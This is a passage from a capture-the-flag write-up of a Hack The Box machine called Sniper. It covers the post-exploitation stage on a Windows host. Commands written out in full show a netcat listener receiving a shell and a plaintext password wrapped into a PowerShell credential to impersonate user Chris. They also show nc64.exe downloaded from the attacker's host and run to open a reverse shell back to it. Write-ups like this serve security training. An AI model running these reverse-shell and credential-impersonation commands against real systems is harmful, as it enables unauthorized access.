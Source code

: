 And my listener receives a connection giving me a proper shell at last:

```aaa
baud@kali:~/HTB/sniper$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.144] from (UNKNOWN) [10.10.10.151] 49737
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>
```

We can become Chris by starting a PSSession with his credentials, since PSSessions aren't blocked by the CLM. First we enter the PowerShell console:

```aaa
C:\inetpub\wwwroot\blog>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog>
```

Then we put the user's password in a variable as a SecureString:

```aaa
PS C:\inetpub\wwwroot\blog> $pw = ConvertTo-SecureString -String "36mEAhz/B8xQ~2VM" -AsPlainText -force
```

The password is used to create a PSCredential object together with the username:

```aaa
PS C:\inetpub\wwwroot\blog> $pp = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList ".\chris", $pw
```

Now the Enter-PSSession cmdlet can be used to start a PSSession using that PSCredential object, which makes us impersonate Chris:

```aaa
PS C:\inetpub\wwwroot\blog> Enter-PSSession -ComputerName localhost -Credential $pp
[localhost]: PS C:\Users\Chris\Documents>
```

I downloaded nc64.exe again to get a proper reverse shell instead of the uncomfortable PSSession:

```aaa
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { IWR http://10.10.14.144/nc64.exe -outfile C:\Users\Chris\Documents\nc64.exe }
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { C:\Users\Chris\Documents\nc64.exe -e cmd.exe 10.10.14.144 9090 }
```

I could have easily used the already downloaded nc64 but for some reason I was having issues navigating folders inside the PSSession so it was more comfortable to have another nc64 in the . directory. The new incoming connection is caught and we have a shell as Chris:
